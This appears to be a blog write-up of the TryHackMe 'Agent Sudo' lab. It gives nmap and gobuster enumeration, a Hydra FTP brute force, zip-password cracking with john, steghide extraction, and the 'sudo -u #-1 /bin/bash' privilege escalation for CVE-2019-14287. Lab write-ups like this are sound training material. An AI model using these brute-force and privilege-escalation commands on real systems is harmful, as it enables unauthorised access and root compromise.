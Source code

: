 ```yaml
---
title: TryHackMe - Agent Sudo
author: Bonface
date: 2021-12-21 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, web, privesc, bruteforce, hydra, suid, john, crack, gobuster]
---
```


# Agent Sudo

You found a secret server located under the deep sea.  
Your task is to hack inside the server and reveal the truth.

#### Task 2: [Enumerate](##Enumerate)
### Task 3: Hash cracking and [brute-force](#bruteforce)

### Task 4: Capture the user flag  
### Task 5: Privilege escalation


##  Enumerate
### nmap

### ip = 10.10.55.182
```sh 
nmap -sV -sC -v 10.10.224.246
```

```sh
Scanning 10.10.224.246 [1000 ports]
Discovered open port 22/tcp on 10.10.224.246
Discovered open port 21/tcp on 10.10.224.246
Discovered open port 80/tcp on 10.10.224.246

21/tcp  open     ftp            vsftpd 3.0.3

22/tcp  open     ssh            OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)

80/tcp  open     http           Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

902/tcp filtered iss-realsecure

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

### Http_80

 **ip**  `10.10.55.182`

**To Do List**  
- run gobuster
- surf the web  
- view source code  
- robots.txt  
- gobuster  

```sh
gobuster dir -u http://10.10.55.182 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
### Result
Nothing much 

### surf the web

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101306.png)

Let's try spoofing as C and get the same URL with curl.  
-A allows us to spoof the user agent and -L follows any redirects.

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101415.png)

Now we have a user `chris` but not sure it's for ssh or ftp.

### ftp-21

# bruteforce
```sh
hydra -L users.txt -P passwords.txt <IP> ftp 
# hydra -l chris -P /usr/share/wordlists/rockyou.txt 10.10.55.182 ftp
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101444.png)

## Result
ftp details  
- user name: chris  
- password: crystal  
log in!!!
```sh
ftp chris@10.10.55.182 
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101527.png)


we got the file, concatenate it:  
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101543.png)


Will have to go back and get the images. We run binwalk on the png file which is the most likely to contain some hidden files.

We get these three files:
i
- 365  
- 365.zlib  
- 8702.zip  
- To_agentR.txt  

The zip file is encrypted. We can use john to crack the password:

```sh
zip2john 8702.zip > forjohn
john forjohn.txt
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101614.png)

Password = alien  
Unzip the files. 
 
You may get errors extracting the files using unzip, if so, use 7z e `zipfile`
```sh
 7z e 8702.zip
 ```  

Use `CyberChef` to decode  
`QXJlYTUx` = `Area51` = password for `steg`.  
We can now use `steghide` on the image that we never used.
```sh
steghide info cute-alien.jpg 
steghide extract -sf cute-alien.jpg 
cat message.txt
```

![robots](/assets/images/Agent_sudo/Pasted%20image%2020241023204845.png)


### Details
With these details and the unused port (22 = ssh), we can try logging in.

Details 
- username: `james`
- password: `hackerrules!`

```sh
 ssh james@10.10.55.182 
# password = hackerrules!
```
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101901.png)

# Privilege escalation
Run sudo -l  
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016101951.png)

Google search for the exploit: CVE:2019-14287  
In the exploit page, we get:  
```sh
 'sudo -u #-1 /bin/bash'
 #Read the root flag. 
```
![robots](/assets/images/Agent_sudo/Pasted%20image%2020241016102023.png)
